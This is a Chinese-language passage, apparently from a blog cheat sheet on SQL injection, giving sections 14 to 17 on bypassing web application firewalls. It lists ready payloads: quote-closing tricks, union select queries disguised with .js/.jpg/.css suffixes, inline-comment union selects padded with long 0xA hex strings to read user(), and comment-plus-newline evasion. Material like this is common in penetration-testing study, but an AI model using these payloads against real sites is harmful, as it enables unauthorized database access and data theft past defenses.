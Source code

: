   

#### 14.闭合方式（注释符）绕过

* `and '1'='1`\
* `||’1`即`or ‘1`

**根据实际的闭合方式来确定符号**



#### 15.静态文件绕过（绕过waf）

**原理：除了白名单信任文件和目录外，有些waf不会对静态文件进行拦截。比如一些图片文件jpg，png，gif或者css，js，从而绕过waf拦截**

例如

```
?id=-1.js$a='union select 1,2,3'
?id=-1.jpg$a='union select 1,2,3'
?/1.jpg$a='union select 1,2,3'
?/1.css=1.css$a='union select 1,2,3'
```



#### 16.大量字符串绕过（绕过waf）

可以用`select 0xA`再配合内联注释，绕过一些waf的拦截，payload如下

```
?id=1 and (select 1)and(select 0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,2,user() --+
?id=1 and(select 1)and(select 0xA*1000)/*!union*//*!select*/1,2,user() --+
```



#### 17.换行混合绕过（绕过waf）

一般的waf会过滤`union select`可以通过注释+换行来raoguo

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/6fa4ede2a616be2ebc28fca4e2bc2d48.png)



